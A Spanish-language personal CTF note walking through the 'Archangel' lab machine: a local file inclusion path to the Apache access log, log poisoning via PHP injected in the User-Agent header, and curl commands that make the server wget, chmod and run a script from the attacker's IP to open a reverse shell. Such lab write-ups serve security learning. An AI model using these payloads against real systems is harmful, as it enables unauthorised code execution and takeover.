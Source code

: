 La máquina [[MAQUINA ARCHANGEL (Fuzzing, Local File Inclusion con wrappers, log poissoning y manipulación del PATH)]] tiene esta vulnerabilidad en esta ruta:
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../././var/log/apache2/access.log
```
![[Mis apuntes/ANEXOS/Pasted image 20230625161757.png]]
Por tanto, una vez visto esto, podemos intentar hacer un log poisoning, de tal forma que si probamos en ejecutar una petición con curl podemos inyectar texto dentro del apartado del user agent:
```bash
curl -s -X GET 'http://mafialive.thm' -H 'User-Agent:Pruebas'
```
![[Mis apuntes/ANEXOS/Pasted image 20230706193634.png]]
Pero ahora si dentro del user-agent inyectamos un código php malicioso para ejecutar comandos, veremos que funciona:
```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('whoami'); ?>"
```
![[Mis apuntes/ANEXOS/Pasted image 20230706193823.png]]
Una vez hecho esto, montamos un servidor http con python y nos compartimos un fichero para enviarnos una reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230706195814.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230706195824.png]]
Y entonces ahora ejecutamos el comando wget para obtener este archivo y después bash pwned.sh para ejecutarlo y recibir la reverse shell:
```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('wget http://10.8.100.91/pwned.sh'); ?>"

curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('chmod 777 pwned.sh'); ?>"

curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('bash pwned.sh'); ?>"
```
Una vez ejecutado lo anterior, refrescamos y habremos recibido la reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230706200246.png]]
Y habremos recibido la reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230706200000.png]]

